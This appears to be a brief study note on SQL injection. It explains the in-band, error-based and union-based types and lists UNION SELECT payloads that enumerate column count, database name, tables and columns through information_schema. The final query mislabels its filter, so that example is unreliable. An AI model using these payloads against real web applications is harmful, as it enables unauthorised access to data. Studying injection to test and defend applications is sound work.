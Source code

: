 SQL injection is an attack on a web application database server that causes malicious queries to be executed
# Types
## In-Band
in-band sql injection refers to the same method of communication being used to exploit the vulnerability and also receive the results 
## Error-based
This sql injection uses errors to determine the database structure and other things
## Union-based
This type of injection utilities the union operator to return additional results to the page
# Gaining information
## Column number
by using union and increasingly larger selects to determine the column size
```sql
union select 1,...,n
```
## Database name
using database() function you can work out what the database is
```sql
(some value that wont come up) union select 1,...,database()
```
## Table names
using information_schema.tables you can get the tables of the database
```sql
(some value that wont come up) union select 1,...,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'database_name'
```
## Column names
using information_schema.columns you can get the tables of the database
```sql
(some value that wont come up) union select 1,...,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'database_name'
```